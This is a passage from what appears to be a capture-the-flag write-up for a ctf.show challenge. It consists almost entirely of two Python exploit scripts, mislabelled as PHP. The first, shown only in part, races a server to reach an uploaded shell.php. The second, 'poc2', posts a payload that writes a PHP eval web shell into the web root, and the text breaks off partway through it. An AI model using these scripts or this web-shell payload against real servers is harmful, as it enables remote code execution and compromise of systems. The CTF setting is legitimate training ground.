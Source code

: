 ```php
        get(URL, params)
        url = urljoin(URL, 'shell.php')
        code = get(url).status_code.real
        print(f'{url} {code}')
        if code == 200:
            exit()


if __name__ == '__main__':
    Thread(target=write, daemon=True).start()
    read()
```



poc2

```php
import requests
import io
import threading

url='http://9a77fcb3-6f3c-4bd6-a247-07bfe6766509.challenge.ctf.show:8080/'
sessionid='ctfshow'
data={
	"1":"file_put_contents('/var/www/html/jiuzhen.php','<?php eval($_POST[3]);?>');"
}
